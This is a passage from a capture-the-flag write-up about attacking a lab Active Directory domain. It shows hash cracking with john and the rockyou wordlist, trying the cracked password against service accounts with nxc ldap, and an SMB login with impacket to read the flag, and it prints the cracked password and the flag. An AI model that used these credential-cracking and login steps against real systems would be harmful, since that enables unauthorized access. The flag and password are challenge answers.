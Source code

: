 We also do not have write permissions to the rockyou.txt.gz file. So we copy it to our ~ directory to decompress it.

> ~$ gunzip rockyou.txt.gz

This decompresses the file and gives me rockyou.txt in my root directory.

> ~$ john --wordlist=rockyou.txt output.txt

This decrypts the hash to give me a password

Password :tr4v15  

However I don't know which user to use for this password, so to find out, we just ldap both users.

> ~$ nxc ldap dc01.antennae.rv -u 'svc_vdi' -p 'tr4v15' --users
>
> ~$ nxc ldap dc01.antennae.rv -u 'svc_sql' -p 'tr4v15' --users

Then, assessing the outputs (red or green) I determine that the user that works is svc_vdi.

#### Getting the flag

Generally to login, people use smbclient, however it cannot do active directory logins which is what we want.

To do so, we have to use smbclient.py  
To use it, we run it by impacket-smbclient

> impacket-smbclient --help (to find the commands we can use)

> impacket-smbclient username@domain 
>
> impacket-smbclient svc_vdi@dc01.antennae.rv

Now we are in, and we can type help for a list of commands. 

* shares - to list available shares
* use {sharename} - connect to a specific share

There are specific Active Directory Windows default share, so we need to find the shares that are not included by default, it is very likely the flag is in there.

> ls

Then we run ls to list out the files in the share and we find flag1.txt

> cat flag1.txt
>
>RV{roAStIn6_1IkE_n0_7OMOrroW_e8cac89a3efd99b6c843857ac8faa276}



# Conclusions

Overall, I learnt quite alot from the event and this writeup. Having gotten exposed to Active Directory and then personally went on to research the basic concepts of most elements that are considered in Active Directory is decently fun. 

At the start, AD was mind boggling to think about (and I am sure it will continue to be), but as I understood more and more about the fundamental idea behind AD forests and its vulnerabilities, I see how an attacker may think to try and exploit it.

